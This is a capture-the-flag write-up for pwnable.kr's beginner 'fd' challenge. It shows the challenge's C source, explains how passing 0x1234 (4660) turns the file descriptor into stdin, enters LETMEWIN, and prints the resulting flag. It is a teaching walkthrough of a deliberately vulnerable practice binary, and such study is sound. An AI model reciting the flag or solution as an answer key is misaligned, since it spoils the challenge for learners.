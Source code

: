 # Toddler's Bottle

### Question

> Mommy! what is a file descriptor in Linux?
> 
> ssh fd@pwnable.kr -p2222 \(pw:guest\)

<button class="section" target="solution" show="Show solution" hide="Hide solution"></button>

<!--sec data-title="Solution" data-id="solution" data-show=false ces-->

### Step 1: SSH to the remote, and look around

```sh
$> ssh fd@pwnable.kr -p2222
fd@pwnable.kr\'s password:
 ____  __    __  ____    ____  ____   _        ___      __  _  ____
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    /
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87.kr@gmail.com
- IRC : irc.smashthestack.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal

fd@ubuntu:~$ ls
fd  fd.c  flag

fd@ubuntu:~$ cat flag
cat: flag: Permission denied
```

We can see that we cannot read the flag (duh!) - Maybe the other file has something.


### Step 2: See what is inside other files

```bash
fd@ubuntu:~$ cat fd.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
            printf("pass argv[1] a number\n");
            return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
            printf("good job :)\n");
            system("/bin/cat flag");
            exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}

fd@ubuntu:~$

```

### Step 3: Get the flag

OK, `fd.c` MUST have access to the file! It expects an argument that will become a _file descriptor_. 
According to the [Linux MAN page](http://man7.org/linux/man-pages/man3/stdout.3.html), `STDIN` is associated with filedescriptor `0`. That means if we give `0x1234` as an argument, the `fd` will become `0`.

We call the `fd` program with argument 4660 (`0x1234` in decimal) and enter the `LETMEWIN` string:

```bash
fd@ubuntu:~$ ./fd `python -c "print 0x1234"` # This is equivalent to './fd 4660'
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
fd@ubuntu:~$
```

So the flag is `mommy! I think I know what a file descriptor is!!`
<!--endsec-->


